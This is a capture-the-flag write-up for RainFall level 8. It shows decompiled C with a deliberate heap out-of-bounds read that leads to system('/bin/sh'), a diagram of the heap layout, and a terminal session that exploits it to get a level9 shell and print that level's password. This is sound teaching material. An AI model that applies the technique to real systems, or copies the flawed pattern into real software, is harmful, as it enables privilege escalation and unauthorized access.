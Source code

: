 # Level 8

<h3>source.c</h3>

```console
char	*auth = NULL;
char	*service = NULL;

int main(int argc, char** argv) {
  char str[128];

  while(1) {
    printf("%p, %p \n", edx, ecx);

    if (fgets(str, 128, stdin) == 0) {
      break;
    }
    if (strncmp(str, "auth ", 5) == 0) {
      auth = malloc(4);
      auth[0] = 0;
      if (strlen(str + 5) <= 30) {
        strcpy(auth, str + 5);
      }
    }
    if (strncmp(str, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(str, "service", 6) == 0) {
      service = strdup(str + 7);
    }
    if (strncmp(str, "login", 5) == 0) {
      if (auth[32] != 0) {
        system("/bin/sh");
      }
      else {
        fwrite("Password:\n", 1, 10, stdout);
      }
    }
  }

  return (0);
}
```

<h3>Step</h3>

For this program, the harder part would be the long `main()` in the asm form

After reserving it to c code, we can see that it is doing a infinite loop that only break if `fgets()` returns 0

Each loop will start by printing the address of the global variable `auth` and `service`

Next it will check for the input and do action according to the input given

Our goal this time will be to make `auth[32] != 0` so that it will call `system("/bin/sh")`

<h3>Exploit</h3>

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service
0x804a008, 0x804a018
```

Base on the analysis above, lets visualize the state of the `heap`

```console

1st malloc call (auth = malloc(4))

            +-----------+                                -> 8 bytes reserve for auth, even if the program only ask for 4 bytes memory,
            |   auth    |                                   malloc will give the memory base by the multiplier of 8,
    +-------------------+                                   so it reserve 8 bytes instead, at this point, we could possibly write
    | M | B | 8 bytes   |                                   `auth 12345678123456781234567812345678` as the next line will do strcpy on the 5th input onward
    +-------------------+                                   but there is a condition that we could only copy if the len is 30bytes, so this plan won't work 
0x804a008__/

2nd malloc call (service = strdup(str + 7))

            +-----------+   +-----------+
            |   auth    |   |  service  |                -> n bytes reserve for service requested by strdup,
    +-------------------------------------------------+     here we can see that `auth[32]` will landed somewhere in the memory area reserve for service
    | M | B | 8 bytes   | B | bytes request by strdup |     8 bytes (auth own area) + 8 bytes (service block metadata) = 16 bytes,
    +-------------------------------------------------+     so we need to write another 16 bytes into service memory area so that `auth[32]` will be filled
0x804a008__/    0x804a018__/

```

```console
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
